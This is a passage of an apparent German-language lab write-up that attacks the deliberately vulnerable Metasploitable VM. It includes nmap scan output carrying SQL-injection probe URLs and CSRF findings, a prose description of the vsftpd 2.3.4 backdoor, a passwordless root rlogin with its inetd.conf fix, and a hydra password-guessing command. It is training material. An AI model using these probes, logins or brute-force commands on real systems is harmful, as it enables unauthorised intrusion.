|     http://192.168.1.53:80/mutillidae/?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=captured-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=secret-administrative-pages.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=arbitrary-file-inclusion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fhow-to-access-Mutillidae-over-Virtual-Box-network.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fvulnerabilities.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=change-log.htm%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=framing.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=register.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=html5-storage.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=site-footer-xss-discussion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=capture-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=password-generator.php%27%20OR%20sqlspider&username=anonymous
|     http://192.168.1.53:80/mutillidae/index.php?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=pen-test-tool-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=installation.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-poll.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=set-background-color.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=home.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?do=toggle-security%27%20OR%20sqlspider&page=home.php
|     http://192.168.1.53:80/mutillidae/index.php?page=browser-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=dns-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=captured-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=notes.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=secret-administrative-pages.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=usage-instructions.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fhow-to-access-Mutillidae-over-Virtual-Box-network.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fvulnerabilities.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=change-log.htm%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=framing.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=register.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?do=toggle-hints%27%20OR%20sqlspider&page=home.php
|     http://192.168.1.53:80/mutillidae/index.php?page=html5-storage.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=site-footer-xss-discussion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=arbitrary-file-inclusion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=capture-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=password-generator.php%27%20OR%20sqlspider&username=anonymous
|     http://192.168.1.53:80/mutillidae/index.php?page=php-errors.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=pen-test-tool-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=installation.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=add-to-your-blog.php%27%20OR%20sqlspider
|   Possible sqli for forms:
|     Form at path: /mutillidae/index.php, form's action: index.php. Fields that might be vulnerable:
|       choice
|       choice
|       choice
|       choice
|       choice
|       choice
|       choice
|       choice
|       choice
|       choice
|       choice
|       choice
|_      initials
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.1.53
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.1.53:80/dvwa/
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.1.53:80/mutillidae/index.php?page=user-poll.php
|     Form id: idpollform
|     Form action: index.php
|     
|     Path: http://192.168.1.53:80/mutillidae/index.php?page=set-background-color.php
|     Form id: id-bad-cred-tr
|     Form action: index.php?page=set-background-color.php
|     
|     Path: http://192.168.1.53:80/mutillidae/index.php?page=text-file-viewer.php
|     Form id: id-bad-cred-tr
|_    Form action: index.php?page=text-file-viewer.php
| http-enum: 
|   /tikiwiki/: Tikiwiki
|   /test/: Test page
|   /phpinfo.php: Possible information file
|   /phpMyAdmin/: phpMyAdmin
|   /doc/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) dav/2'
|   /icons/: Potentially interesting folder w/ directory listing
|_  /index/: Potentially interesting folder
MAC Address: 00:0C:29:F3:43:E3 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 346.87 seconds
```

### Very Safe FTP backdoor

#### Angabe
Der vuln-scan auf Metasploitable Port 21/FTP liefert Hinweis auf eine Schwachstelle, verwende die angezeigte CVE Nummer um genaueres über diese herauszufinden.

#### Lösung 

CVE-2011-2523 – vsftpd 2.3.4 Backdoor

Betroffene Software

vsftpd Version 2.3.4

Standardmäßig auf Metasploitable installiert

Art der Schwachstelle

Backdoor / Remote Command Execution (RCE)

Beschreibung
In der offiziellen vsftpd-Version 2.3.4 wurde 2011 ein manipulierter Quellcode veröffentlicht.
Wenn sich ein Angreifer mit einem Benutzernamen anmeldet, der einen Smiley enthält, wird im Hintergrund eine Backdoor aktiviert, die auf einem hohen TCP-Port eine Shell öffnet.

## Login Vulnerability

### rlogin vulnerability

#### Angabe

nformiere dich über rlogin und mögliche Angriffe/Fehlkonfiguration in diesem Zusammenhang.

Prüfe mit nmap ob der rlogin zugeordnete Port bei Metasploitable offen ist.
Nutze diese Sicherheitslücke aus um dich als root mit rlogin einzuloggen.
Welche Fehlkonfiguration ermöglicht diesen exploit?
Ändere die Konfiguration von Metasploitable ab um die Sicherheitslücke zu schließen.

#### Lösung

##### Prüfen ob rlogin offen ist

Befehl:
```
nmap -p 513 192.168.56.101
```

513 ist der rlogin Port

Ausgabe:
```
PORT    STATE SERVICE
513/tcp open  login
MAC Address: 00:0C:29:F3:43:E3 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```


##### Login auf Metasploitable

Befehl:
```
rlogin -l root 192.168.1.53
```

Ergebnis:


##### Warum funktioniert das?

rlogind ist aktiviert und erlaubt passwortlose .rhosts-Authentifizierung für root (kein Verbot via PAM, TCP-Wrapper oder Firewall).


##### Lücke Schließen

Auf Metasploitable den Befehl:
```
sudo vi /etc/inetd.conf
```

Und dann in dem File die Zeilen mit # ausklammern



### Online password guessing

Befehl:
```
hydra -l <Benutzer> -P <Passwortliste> <IP> rlogin
```

Ausgabe:
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-15 07:16:30
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:1/p:16), ~1 try per task
[DATA] attacking rlogin://192.168.1.53:513/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-15 07:16:32
```             
